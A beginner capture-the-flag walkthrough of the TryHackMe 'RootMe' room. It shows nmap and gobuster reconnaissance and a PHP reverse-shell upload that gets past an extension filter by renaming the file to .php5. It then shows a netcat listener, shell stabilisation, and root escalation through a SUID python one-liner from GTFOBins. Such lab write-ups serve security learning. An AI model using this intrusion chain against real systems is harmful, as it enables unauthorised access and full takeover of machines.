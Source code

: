 ![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/default_tryhackme.png)

![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/280x280?11d59cb34397e986062eb515f4d32421.png)

# RootMe

A ctf for beginners, can you root me?

The skills to be tested and needed to solve this room are: **nmap**, **GoBuster**, **privilege escalation**, **SUID**, **find**, **webshell**, and **gtfobins**.

This room was released today, 9/9/2020. Shout-out to the room creator, **@reddyyZ**. You can access the room at [https://tryhackme.com/room/rootme](https://tryhackme.com/room/rootme)

## Nmap Scan

```bash
nmap -A -Pn -T4 -oN nmap_result.txt 10.10.172.154
```

```bash
# Nmap 7.92 scan initiated Thu Aug 17 09:36:48 2023 as: nmap -A -Pn -T4 -oN nmap_result.txt 10.10.172.154
Nmap scan report for 10.10.172.154
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/17%OT=22%CT=1%CU=44432%PV=Y%DS=5%DC=T%G=Y%TM=64DE22B
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   282.54 ms 10.17.0.1
2   ... 4
5   406.59 ms 10.10.172.154

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 09:37:52 2023 -- 1 IP address (1 host up) scanned in 64.87 seconds
```

Run **gobuster** to look for hidden directories and files on the web server.

```bash
gobuster dir -u http://10.10.172.154/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20
```

![Screenshot 2023-08-17 195731.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-17_195731.png)

Visit the hidden directory through your preferred browser.

Type **<Target_IP>*/panel/***

![Screenshot 2023-08-18 030745.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_030745.png)

Looks like we can use this to upload a **web shell** and get a reverse shell. Download the php reverse shell script [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). Make sure to change the values in the script with your own IP address and a port of your choice to get a reverse shell

![Screenshot 2023-08-18 030907.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_030907.png)

Here are the values you need to change in the **php-reverse-shell** script

Upon uploading the **php-reverse-shell.php** file, we get a “PHP not permitted” I supposed message

Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully too

![Screenshot 2023-08-18 031312.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_031312.png)

Successfully uploaded my php reverse-shell script

Start a netcat listener from your attack machine. Type ***nc -nlvp 9999***

Run the php reverse-shell script by using **curl**. 

Type ***curl [http://10.10.177.208/uploads/reverse-shell.php5](http://10.10.177.208/uploads/reverse-shell.php5)***

Go back to check on your listener if you have a connection

![Screenshot 2023-08-18 031418.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_031418.png)

**Netcat Shell Stabilisation**

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

Search for the user.txt using **find**. Type **find / -name user.txt -type f 2>/dev/null**

- ***type f*** – you are telling find to look exclusively for files
- ***name user.txt*** – instructing the find command to search for a file with the name “user.txt”
- ***2> /dev/null*** – so error messages do not show up as part of the search result

user.txt file is found at location **/var/www/user.txt**

Retrieve the content of user.txt. Type ***cat /var/www/user.txt***

Search for files with SUID permission to escalate our privilege using **find**. Type ***find / type -f -user root -perm -u=s 2> /dev/null***

![Screenshot 2023-08-18 032046.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032046.png)

Check **gtfobins** on how to exploit the suid above. Access gtfobins [here](https://gtfobins.github.io/). Then search for the specific binary you found above and study how you can exploit through SUID.

![Screenshot 2023-08-18 032222.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032222.png)

Escalate our privilege to root user. Type ***python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’***

![Screenshot 2023-08-18 032341.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032341.png)

Search for root.txt. Type ***find / -type f -name root.txt***

found root.txt file location **/root/root.txt**

Retrieve the content of root.txt. Type ***cat /root/root.txt***

![Screenshot 2023-08-18 032528.png](RootMe%20017d0cf7d078432089cc26c90876ba89/Screenshot_2023-08-18_032528.png)

found the root flag!